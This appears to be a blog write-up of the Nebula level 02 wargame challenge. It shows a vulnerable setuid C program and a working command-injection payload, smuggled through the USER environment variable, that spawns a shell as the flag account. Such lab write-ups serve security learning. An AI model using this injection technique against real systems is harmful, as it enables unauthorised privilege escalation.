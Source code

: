 ```yaml
---
title: "Exploit Exercises - Nebula 02"
date: "2011-12-03T08:13:00-05:00"
comments: true
highlight: "true"
categories:
 - Nebula
 - wargames
 - linux
 - exploit-exercises
 - hacking
---
```


In [this](http://exploit-exercises.com/nebula/level02) challenge, we're again provided with the source code to the vulnerable program.  Only this time, they're not loading the "echo" program from the environment's path.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
 char *buffer;

 gid_t gid;
 uid_t uid;

 gid = getegid();
 uid = geteuid();

 setresgid(gid, gid, gid);
 setresuid(uid, uid, uid);

 buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
 printf("about to call system(\"%s\")\n", buffer);

 system(buffer);
}
```

What I did initially notice here, is that the "USER" variable is being called directly from the environment.  This makes it very similar to the previous challenge.  I luckily got this one on my first try. 

```
level02@nebula:/home/flag02$ USER='-e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02'
level02@nebula:/home/flag02$ export USER
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo -e "#!/bin/bash\n/bin/bash" > /tmp/level02; chmod +x /tmp/level02; /tmp/level02 is cool")
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

What we're doing here, is injecting code into the echo command.  This, like the last challenge, makes a bash script at /tmp/level02 which will ignore any other parameters.  It then marks it executable so we can actually execute it.  Then it executes the bash script.

Often times in situations like this, the bash script wouldn't be needed, but since the " is cool" is following the execution, it needs to handle that.  A bash script lets it get ignored, where passing it as a parameter to /bin/bash would try to execute it. 

I'm guessing there may be an easier way than creating the bash script.  Maybe a way to comment out the rest of the line?  I'm not sure, but I know this method worked great for me.
